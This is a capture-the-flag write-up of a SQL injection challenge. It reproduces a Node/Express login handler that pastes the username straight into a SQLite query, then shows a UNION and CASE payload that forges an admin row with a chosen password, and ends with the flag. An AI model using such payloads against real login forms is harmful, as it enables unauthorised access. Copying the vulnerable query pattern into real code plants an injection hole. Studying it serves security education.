 # Injection Perfection - SQLI

We are given credentials,
- username: joe
- password: bruin

as well as the source

```js
const express = require('express');
const path = require('path');

const multer = require('multer');
const bodyParser = require('body-parser');

const port = parseInt(process.env.PORT) || 8080;

const sqlite3 = require('sqlite3');
const db = new sqlite3.Database('app.db', sqlite3.OPEN_READONLY);

const app = express();
const upload = multer();
app.use(bodyParser.urlencoded({ extended: true }));
app.use(upload.array());
app.use(express.static('public'));

const getFavColor = async (username) => {
	return new Promise((resolve, reject) => {
		db.get('SELECT fav_color FROM users WHERE username=?', username, (err, row) => {
			if (err) return resolve(err);
			return resolve(row.fav_color);
		});
	});
};

const attemptLogin = (username, password) => {
	return new Promise((resolve, reject) => {
		db.get(`SELECT username, password FROM users WHERE username='${username}'`, async (err, row) => {
			if (err)
				return reject(err);
			else if (row === undefined)
				return reject('Invalid User');
			else if (password === row.password)
				return resolve(`My favorite color is ${await getFavColor(row.username)}`);
			else
				return reject('incorrect password');
		});
	})
};

app.get('/', (req, res) => {
	res.sendFile(path.join(__dirname, 'login.html'));
});

app.post('/', async (req, res) => {
	const username = req.body.username;
	const password = req.body.password;

	if (!username || !password)
		return res.status(400).send("Invalid Login");
	
	try {
		return res.status(200).send(await attemptLogin(username, password));
	} catch (err) {
		return res.status(400).send(err);
	}
});

app.get('*', (req, res) => {
	res.status(404).send('not found');
});

app.listen(port, () => {
	console.log(`Listening on port ${port}`);
});
```

Of course the section we are concerned with is 

```js
db.get(`SELECT username, password FROM users WHERE username='${username}'`, async (err, row) => {
			if (err)
				return reject(err);
			else if (row === undefined)
				return reject('Invalid User');
			else if (password === row.password)
				return resolve(`My favorite color is ${await getFavColor(row.username)}`);
			else
				return reject('incorrect password');
		});

```

We can see our username input gets injected into freely into the query 

`SELECT username, password FROM users WHERE username='${username}'`

The challenge with this problem is how it treats the login.
Instead of a usual 

`SELECT username, password FROM users WHERE username='${username}' AND password={password}`

The logic checks the valid password FROM the database result, and not in the sql query. Thus, it is a check we cannot avoid.

`else if (password === row.password)`

There are also no leaks of information as the only text output given is the fav_colour column upon a successful login.

```js
db.get('SELECT fav_color FROM users WHERE username=?', username, (err, row) => {
			if (err) return resolve(err);
			return resolve(row.fav_color);
		});
```

With this information, our best method of breaking the code is to somehow manipulate the result to give us a row that has the username admin and a password we manipulate.

Early attempts involved UNION, grabbing two query results and switching the ORDER of the queries

`joe' union select username, password from users where username='admin' ORDER BY 1 -- `

This of course will not work because the resulting sql output will still be a valid, untouched row from the database. 

Further research into manipulating sql output from a query led me to find the CASE syntax.

`SELECT id, name, CASE WHEN hide = 0 THEN 'false' ELSE 'true' END AS hide FROM anonymous_table`

This looked very promising but it requires us to still know the password, but then I researched if LIKE was compatible with it, and it was.

`CASE WHEN countries LIKE '%'+@selCountry+'%' THEN 'national' ELSE 'regional' END`

Last thing to do was construct our payload.

`joe' union select username, case when password like '%' then 'a' END as password from users where username='admin' -- `

flag{red_is_the_best_color_fight_me_you_wont}